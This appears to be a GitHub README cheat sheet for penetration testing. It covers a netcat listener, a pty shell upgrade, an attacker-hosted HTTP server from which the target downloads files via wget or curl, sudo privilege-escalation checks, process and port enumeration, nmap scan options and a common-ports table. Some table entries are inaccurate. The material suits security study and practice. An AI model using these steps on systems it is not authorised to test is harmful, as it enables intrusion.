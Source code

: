 # h4x0r-cheatsheet

**Open a port to listen for a connection from a remote host**  
```nc -lvnp <desired port>```

**Convert basic shell into bash**  
```python -c 'import pty; pty.spawn("/bin/bash")'```

**Download files to remote host via shell**  
Local (Attacker): ```python -m SimpleHTTPServer 80```  _**OR**_ ```python3 -m http.server 80```  
Remote (Target): ```wget <your ip>/desired.file``` _**OR**_ ```curl <your IP>/desired.file```

**Check which files the current user can run as root (possible PrivEsc)**  
```sudo -l```

**Display all running processes with owner**  
```ps aux```

**Display all processes listening on ports**  
```netstat -lntup```  
	**Specific application**  
	```netstat -lntup | grep "<appname>"```  
	**Specific port**  
	```netstat -lntup | grep ":<port>"```  
_**OR**_  
```ss -lntu```

**Display all open Internet and network files**  
```lsof -i```

## nmap commands
**Scan for common open ports**  
```nmap <target ip>```

**Scan for ports at ultra high speed**  
```nmap -T5 <target ip>```

**Scan steathily (slower)**  
```nmap -sS <target ip>```

**Scan specific ports for versions and possible vulns**  
```nmap -sC -sV -p <port>(,<port>,...)```

**Scan for OS**  
```nmap -O <target ip>```

**Get more verbose output**  
```nmap -vvv <target ip>```

**Save to file**  
```nmap -oN <filename> <target ip>```

## common ports
| Number | Service | Protocol |
| ------ | ------- | -------- |
| 20,21  | FTP     | TCP      |
| 22     | SSH     | TCP/UDP  |
| 23     | Telnet  | TCP      |
| 25     | SMTP    | TCP      |
| 53     | DNS     | TCP/UDP  |
| 80     | HTTP    | TCP      |
| 110    | POP3    | TCP      |
| 143    | IMAP4   | TCP/UDP  |
| 161,162 | SNMP   | TCP      |
| 443    | HTTPS   | TCP/UDP  |
| 989,990 | SFTP   | TCP      |
| 3389   | RDP     | TCP/UDP  |

